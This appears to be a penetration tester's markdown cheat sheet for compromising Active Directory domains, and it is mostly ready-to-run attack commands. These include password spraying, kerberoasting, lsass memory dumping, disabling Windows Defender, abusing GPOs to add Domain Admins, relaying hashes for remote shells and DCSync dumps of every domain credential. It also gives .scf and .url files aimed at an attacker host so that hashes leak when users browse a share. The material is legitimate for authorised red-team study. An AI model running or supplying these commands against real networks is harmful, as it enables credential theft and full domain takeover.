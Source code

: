 ## Enumeration
* _attempt DNS zone transfer_
```
nslookup
set type=any
ls -d {domain.local}
```
* [PingCastle](https://pingcastle.com) _Use to find common active directory vulnerabilities and misconfigurations_
* `adcollector.exe` _enumerate interseting info from active directory domain_
* `Get-ADComputer -filter {ms-mcs-admpwdexpirationtime -like '*'} -Properties 'ms-mcs-admpwd','ms-mcs-admpwdexpirationtime' | select dnshostname,ms-mcs-admpwd` _Try to fetch LAPS passwords from active directory if permissions aren't properly configured_
* [bloodhound](https://www.pentestpartners.com/security-blog/bloodhound-walkthrough-a-tool-for-many-tradecrafts/) _Use to map a path to domain admin.  [unofficial docker image](https://github.com/belane/docker-bloodhound)_
* _active directory and group policy snapins can be used by any domain user if they are installed_
* `crackmapexec smb {ip range} -u {username} -p {password}` _scan an ip or range with valid creds to see where it's an admin or at least a valid user_
* `crackmapexec smb {ip range} -u {username} -p {password} --shares` _enumerate shares that user has access to_
* `SharpShares.exe shares` _enumerate readable shares that user has access to_
* [PowerHuntShares](https://github.com/NetSPI/PowerHuntShares) _tool to enumerate shares that user has access to_
* `/usr/share/responder/tools/RunFinger.py -i {ip/mask}` _scan for machines with smb signing off so hashes can be passed instead of cracked_
* `crackmapexec smb {ip range} -u {username} -H {hash} --local-auth` _Check an ip range for access using a local admin account and its uncracked hash.  SMB singing must be disabled on the target_

## Getting Creds
* `findstr /S /I cpassword \\{domain}\sysvol\{domain}\policies\*.xml` _check group policy for passwords that can be easily decrypted_
* `reg add HKCU\Console /f /v VirtualTerminalLevel /t reg_dword /d 1` _fix console colors for crackmap exec_
* `crackmapexec smb {ip} -u {users.txt} -p {password}` _spray all user accounts in users.txt with a single popular password_
* `crackmapexec smb {ip} -u {users.txt} -p {password} --local-auth` _password spray for local accounts_
* `rubeus.exe brute /password:{password} /outfile:{file.txt}` _password spray all domain accounts with one password using rubeus_
* `crackmapexec smb {domain controller} -u {username} -p {password}` _check that domain credentials are valid by attempting to login_
* `crackmapexec smb {domain controller} -u {username} -H {hash}` _check that domain credentials are valid by attempting to pass hash_
* `responder -I eth0 -wrf` _Start responder on eth0. Listen for netbios, and wpad_
* `inveigh.exe -nbns y -llmnr y -mdns y` _capture hashes on network with inveigh_
* _Example index.scf file that can force any machine that views a share to send hash to attackers responder_
```
[Shell]
Command=1
IconFile=\\{attacker ip}\whatever.ico
[Taskbar]
Command=ToggleDesktop
```
* _Example .url file that when clicked will send hash to attackers responder_
```
[InternetShortcut]
URL=file://{attacker ip}/@whatever
```
* `smbclient \\\\{ip}\\{share name} -U {domain}/{user}` _connect to smb share with valid creds_
* `put /{path}/index.scf ./index.scf` _upload malicous scf file to root of connected smb share_
* `rubeus.exe kerberoast /simple /outfile:kerberoast.txt`  _[kerberoast](https://room362.com/post/2016/kerberoast-pt1/) stealing crackable tickets from AD using kerberoasting. htb machine [Active](https://0xrick.github.io/hack-the-box/active/) is an example of this_
* _alternative kerberoast method_
```
Import-Module powerview.ps1
Invoke-Kerberoast -OutputFormat {hashcat/john} | Select-Object -ExpandProperty hash
```
* `rubeus.exe asreproast /format:{hashcat/john} /nowrap /outfile:asreproast.txt` _stealing crackable tickets from AD using asreproasting for any accounts that dont require kerberos preauth_
* `rundll32.exe C:\Windows\System32\comsvcs.dll MiniDump “<lsass pid> lsass.dmp full”` _Dump the lsass process to a file so it can be transfered to attacked for mimikatz.  Useful after forcing clear text lsass creds.  See tutorial page_
* [lsassy](https://github.com/Hackndo/lsassy) _Remotely dump secrets from lsass process_

## Privilege Escalation
* `Set-MpPreference -DisableRealtimeMonitoring $true` _disable windows defender realtime monitoring_
* `SharpGPOAbuse.exe --addcomputertask --taskname "{any task name}" --author "{any author name}" --command "cmd.exe" --arguments "/c net group \"Domain Admins\" {uesr to add} /ADD /DOMAIN" --gponame {name of vulnerable GPO}` _If a user has write privs to a GPO use it to run a command on computers that GPO applies to under their security context. Can take 90 minutes for GPO refresh_ 
* _Spawn a cmd process as another user with their hashed password. Then other tools like dsa.msc can be spawned from the cmd shell_
```
mimikatz.exe
privilege::debug
sekurlsa::pth /user:{user} /domain:{AD domain} /ntlm:{hash}
```
* `crackmapexec.exe smb {machine name} -u {user} -p {password} --local-auth -M wdigest -o ACTION=enable` _Remotely enable wdigest flag on machine.  Forces storing passwords in plain text so can dump later. Use local admin creds. Can be done by passing hash as well with -H instead of -p_
* `crackmapexec.exe smb {machine name} -u {user} -p {password} -M wdigest -o ACTION=enable` _Remotely enable wdigest flag on machine.  Forces storing passwords in plain text so can dump later. Use domain creds.  Can be done by passing hash as well with -H instead of -p_
* _Connect to another host with powershell remoting.  useful for dumping hashes etc with local admin_ 
```
winrm set winrm/config/client @{TrustedHosts="remote computer name"}
Enter-PSSession -ComputerName {remote computer name} -Credential {domain or computername\username}
```
* `procdump64.exe --accepteula -ma lsass.exe dump.dmp` _Dump lsass memory with procdump.  Will contain password hashes, or clear text if using wdigest flag_
* `pypykatz.exe lsa minidump dump.dmp` _Extract creds from lsass dump.  Should be done on attacker machine_

* `Get-AdComputer -filter {(TrustedForDelegation -eq $True)}` _Find computers with unconstrained delegation.  If you have local admin on a computer with unconstrained delegation you can capture other accounts TGT and pass them to other machines_
* `rubeus.exe monitor /interval:5 /nowrap` _On computer with unconstrained delegation listen for TGT. Disable AV first_
* `MS-RPRN.exe {\\domain controller or other machine} {\\machine running rubeus}` _abuse printer bug from attacker machine to force connections to unconstrained delegation machine_
* _import and pass the rubeus captured ticket to dump all domain creds. Done on attacker machine_
```
rubeus.exe ptt /ticket:{captured base64 encoded ticket}
klist tickets
mimikatz.exe
privilege::debug
log hashes.txt
lsadump::dcsync /domain:{AD domain} /all /csv
```
* `klist purge` _Delete any imported tickets that are not working correctly_

## Remote Commands
* `crackmapexec smb {ip range} -u {username} -p {password} -x {cmd}`  _run command on remote machine using valid creds_
* `/usr/share/responder/tools/MultiRelay.py -t {ip} -u ALL` _Responder must be running with smb and http off.  This will listen for admin hashes and try to relay them to the specified ip to spawn a remote shell.  SMB signing must be disabled on the target [some instructions here](https://www.notsosecure.com/pwning-with-responder-a-pentesters-guide/)_

## Persistance
* _Remotely dump all AD creds after obtaining domain admin. Hashes can be cracked or passed_
```
mimikatz
privilege::debug
log hashes.csv
lsadump::dcsync /domain:{AD domain name} /all
```
*  _Powershell to cleanup mimikatz dump for cracking_
```
Import-CSV -Delimiter "`t" -Header @("id","user","hash") -path .\hashes.csv | select user,hash | where-object {$.user -ne $null} | convertto-csv -Delimiter ':' -NoTypeInformation | % { $ -replace '"', ""} | select-string -pattern "$" -notmatch |select-object -skip 1| out-file crackme.csv -Encoding ascii
```